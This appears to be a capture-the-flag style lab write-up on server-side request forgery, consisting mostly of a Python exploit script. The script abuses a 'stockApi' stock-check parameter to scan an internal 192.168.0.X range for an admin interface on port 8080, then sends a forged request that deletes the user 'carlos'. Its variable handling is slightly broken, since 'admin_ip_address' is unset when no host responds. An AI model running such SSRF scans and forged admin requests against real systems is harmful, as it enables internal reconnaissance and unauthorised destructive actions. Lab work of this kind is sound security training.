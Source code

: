 Vulnerable feature - stock check functionality

Goal - Use the stock check functionality to scan the internal 192.168.0.X range for an admin interface on port 8080, then use it to delete the user carlos.

Analysis:

* application running on: http://192.168.0.190:8080/admin
* delete carlos: http://192.168.0.190:8080/admin/delete?username=carlos

```python
import requests
import sys
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def check_admin_hostname(url):
    check_stock_path = "/product/stock"
    admin_hostname = ''
    for i in range(1,256):
        hostname = 'http://192.168.0.%s:8080/admin' %i
        params = {'stockApi': hostname}
        r = requests.post(url + check_stock_path, data=params, verify=False, proxies=proxies)
        if r.status_code == 200:
            admin_ip_address = '192.168.0.%s' %i
            break
    
    if admin_ip_address == '':
        print("(-) Could not find admin hostname.")
    return admin_ip_address

def delete_user(url, admin_ip_address):
    delete_user_url_ssrf_payload = 'http://%s:8080/admin/delete?username=carlos' % admin_ip_address
    check_stock_path = '/product/stock'
    params = {'stockApi': delete_user_url_ssrf_payload}
    r = requests.post(url + check_stock_path, data=params, verify=False, proxies=proxies)

    # Check if user was deleted
    check_admin_url_ssrf_payload = 'http://%s:8080/admin' % admin_ip_address
    params2 = {'stockApi': check_admin_url_ssrf_payload}
    r = requests.post(url + check_stock_path, data=params2, verify=False, proxies=proxies)
    if 'User deleted successfully' in r.text:
        print("(+) Successfully deleted Carlos user")
    else:
        print("(-) Exploit was unsuccessful.")


def main():
    if len(sys.argv) !=2:
        print("(+) Usage: %s <url>" % sys.argv[0])
        print("(+) Example: %s www.example.com" % sys.argv[0])

    url = sys.argv[1]
    print("(+) Finding admin hostname...")
    admin_ip_address = check_admin_hostname(url)
    print ("(+) Found the admin ip address: %s" % admin_ip_address)
    print("(+) Deleting Carlos user...")
    delete_user(url, admin_ip_address)

if __name__ == "__main__":
    main()
```
END!